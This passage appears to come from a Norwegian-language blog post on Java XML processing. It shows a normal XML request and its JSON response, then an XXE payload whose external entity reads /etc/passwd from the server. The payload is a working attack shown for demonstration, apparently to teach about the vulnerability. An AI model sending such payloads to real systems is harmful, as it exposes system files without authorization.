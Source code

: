 ![It works](/assets/img/blog/2021-java-xml/it-works.png)
1. Her er request body som er en XML (`Content-Type: application/xml`)
2. Svaret ifra applikasjonen som en `application/json`
3. [curl](https://curl.se/) equivalent (hvis du er mer en `curl` fan)
4. rå request og response (hvis du vil se alt som sendes fram og tilbake)

Dette ser jo fint og flott ut, teksten ble hentet ut som forventet, og levert tilbake som en JSON. 😎

🏴‍☠️ La oss modde litt på requesten... 🏴‍☠️
~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>
    <test>&xxe;</test>
</root>
~~~
